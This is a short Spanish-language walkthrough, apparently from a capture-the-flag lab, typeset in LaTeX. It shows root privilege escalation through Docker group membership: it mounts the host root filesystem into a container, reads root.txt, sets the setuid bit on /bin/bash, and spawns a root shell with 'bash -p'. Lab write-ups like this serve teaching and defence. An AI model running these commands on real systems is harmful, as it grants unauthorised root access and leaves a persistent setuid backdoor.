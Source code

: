 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

\hypertarget{escalacion-de-privilegios-con-docker}{%
\subsection*{Escalacion de privilegios con Docker}\label{escalacion-de-privilegios-con-docker}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkear las imagenes Docker existentes

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ ps}
\end{Highlighting}
\end{Shaded}
\item
  Utilizar una imagen existente para crear un contenedor y \textbf{mountarle} la raiz del systema en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ run --rm -it -v /:/mnt rodhes bash}
\BuiltInTok{cd}\NormalTok{ /mnt/root/}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}
\item
  Escalar privilegios en la maquina real

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina real

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}
\end{document}
